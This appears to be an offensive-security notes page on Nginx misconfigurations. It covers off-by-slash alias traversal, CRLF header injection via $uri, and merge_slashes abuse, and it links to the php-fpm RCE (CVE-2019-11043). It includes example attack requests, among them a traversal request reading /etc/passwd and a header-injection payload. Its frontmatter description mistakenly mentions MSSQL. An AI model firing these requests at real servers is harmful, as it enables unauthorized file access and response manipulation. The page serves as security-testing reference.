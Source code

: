 ```yaml
---
title: "Nginx"
description: "Tips to exfiltrate information from a MSSQL database."
date: 31/07/2019
categories:
 - web
tags:
 - nginx
 - web
---
```


## Misconfiguration

Configuration file may include vulnerabilities allowing an attacker to access files
out of the root folder or injecting headers.


### Missing slash (Off-By-Slash)

Here is a miss-configuration in the the `nginx.conf` file:

```nginx
# static files
location /static {
    alias /srv/app/static/;
}
```

The location value does not end with a `/` but the alias value does. Which means that if we query: `https://example.com/static../foo` then the location will match and will concatenate `../foo` to the alias, which gives us this local file access: `/srv/app/static/../foo`


### `$uri` normalization leads to CRLF injection

The variable `$uri` (and `$document_uri`) is normaized, that mean URLencoded chars
will be decoded. If this variable is used in a redirection or in `rewrite` then
it's possible to inject characters in `Location` header:

```j2
location / {
    return 302 https://$host$uri;
}
location / {
    rewrite ^ https://$host/$uri;
}
```

Here is an example with the following request:

```http
GET /notexist%0d%0aX-Vincd:%20New-Header-Value HTTP/1.0
Host: vincd.com
```

The response will be something like:

```http
HTTP/1.1 302 Moved Temporarily
Server: nginx
...
Location: https://vincd.com/notexist
X-Vincd: New-Header-Value
```

### `merge_slashes` set to off

The [`merge_slashes`](http://nginx.org/en/docs/http/ngx_http_core_module.html#merge_slashes)
directive is a mecanisme to to merge two consecutive slashes. By default this
confguration is set to `on`.

If the configuration is set to `off` and the reversed-proxy application is 
vulnerable to `Local-File-Inclusion` then it's possible to exploit it.
[This article](https://medium.com/appsflyer/nginx-may-be-protecting-your-applications-from-traversal-attacks-without-you-even-knowing-b08f882fd43d)
from `Danny Robinson` and `Roten Bar` detailed this exploitation.

```http
GET /////../../../../../etc/passwd HTTP/1.1
Host: vincd.com
```


## RCE in php-fpm (CVE-2019-11043)

If a webserver runs nginx + php-fpm and nginx have a configuration like

```nginx
location ~ [^/]\.php(/|$) {
  ...
  fastcgi_split_path_info ^(.+?\.php)(/.*)$;
  fastcgi_param PATH_INFO $fastcgi_path_info;
  fastcgi_pass            php:9000;
  ...
}
```

More informations on [https://github.com/neex/phuip-fpizdam](https://github.com/neex/phuip-fpizdam).
